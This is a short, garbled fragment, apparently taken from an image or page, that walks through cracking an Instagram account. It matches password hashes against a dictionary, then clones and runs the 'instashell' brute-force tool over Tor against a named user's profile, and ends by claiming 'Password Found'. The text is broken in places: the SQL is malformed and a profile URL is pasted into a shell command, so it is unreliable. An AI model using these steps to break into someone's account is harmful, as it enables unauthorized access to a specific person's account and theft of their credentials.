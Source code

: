 ### wety.tema,dictionary
SET user.password=dictionary.word
WHERE user.pass_md5=dictionary.md5
git clone https://github.com/thelinuxchoice/instashell
cd instashell https://instagram.com/wety.tema?igshid=1cbb5ote8mb5b
chmod +x instashell.
./instashell.sh
service tor start
Password Found wath https://instagram.com/wety.tema?igshid=1cbb5ote8mb5b
